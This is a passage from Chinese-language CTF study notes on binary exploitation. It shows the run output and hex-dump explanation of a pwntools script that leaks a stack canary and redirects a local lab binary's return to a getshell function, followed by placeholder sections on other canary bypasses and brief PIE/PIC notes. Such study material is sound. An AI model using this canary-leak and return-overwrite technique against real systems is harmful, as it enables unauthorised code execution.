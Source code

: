 运行结果：调用`vuln`函数的返回值被覆盖为`getshell`的函数地址，可以获得所在主机的稳定shell

 ```assembly
$ python canary.py
[*] '/home/kali/CTF/pwn/ex2'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process './ex2': pid 10221
get_shell: <class 'int'> 0x80491b2
[*] Canary:0xa5b35f00       ; 注意这里的值已经是将canary最后一个byte恢复成\x00后的原本的canary值了
[*] Switching to interactive mode
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa$ ls  ; 这里已经获取了 shell 用ls测试
ex2.c  canary.py  core    ex2
 ```

 如果使用`context.log_level = 'debug'`, `io.sendline(b"A" * 100)`之后的输出如下：

 ```assembly
[DEBUG] Received 0x6c bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000060  41 41 41 41  0a 5f b3 a5  10 a0 04 08               │AAAA│·_··│····│    ; 注意这里 0a 5f b3 a5 就是canary+0xa的值
 ```

 `0a 5f b3 a5`包含了101bytes的最后一个字符`\n`(0xa)，所在Linux系统为小端序，所以被覆盖的是canary的最后一个byte。而前面提到了canary值被设计以`\x00`结尾，所以这里需要将canary最后一个字节从`\x0a`恢复到原本的`\x00`



#### one-by-one 爆破 Canary

> 逐位爆破canary



#### 劫持`__stack_chk_fail` 函数

TBD



#### 覆盖 TLS 中储存的 Canary 值

TBD



## PIE(PIC)

> PIC = Position Independent Code 
>
> -fpic Generate position-independent code (PIC) suitable for use in a shared library
>
> https://zhuanlan.zhihu.com/p/91420787 如何做到PIC (2 parts) 带案例
>
> https://sa.sogou.com/sgsearch/sgs_tc_news.php?req=XJfILdCUU2TuOxZDyaoqZBTGiGQumUZMYP-S-WEG-a0=&user_type=1  这里有详细的利用GOT实现PIC的过程 含图示 TBD
>
> `readelf -l hello | grep LOAD | head -1` 查看Load Address
